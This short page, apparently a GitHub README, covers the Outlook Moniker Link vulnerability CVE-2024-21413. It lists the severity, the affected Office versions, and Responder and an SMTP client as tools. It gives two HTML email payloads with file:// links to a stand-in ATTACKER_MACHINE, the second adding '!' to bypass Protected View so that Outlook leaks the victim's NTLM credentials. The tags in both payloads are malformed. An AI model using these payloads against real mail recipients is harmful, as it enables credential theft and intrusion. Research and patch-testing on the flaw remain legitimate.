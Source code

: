 ## Moniker Link CVE-2024-21413

### Tool: Responder, SMTP client

### Severity: Critical

### Scoring: 9.8

### MS Article: https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413

### Affected MS Office releases:

#### 1) Microsoft Office LTSC 2021	(Version: from 19.0.0)

#### 2) Microsoft 365 Apps for Enterprise (Version: from 16.0.1)

#### 3) Microsoft Office 2019 (Version: from 16.0.1)

#### 4) Microsoft Office 2016 (Version: from 16.0.0 before 16.0.5435.1001)

### Example payload: (Moniker Link type: file://)

#### 1) <p><a href="file://ATTACKER_MACHINE/test"<Click me</a></p<

### Outlook's Protected view bypass: (Special character: !)

#### 1) <p><a href="file://ATTACKER_MACHINE/test!exploit"<Click me</a></p<

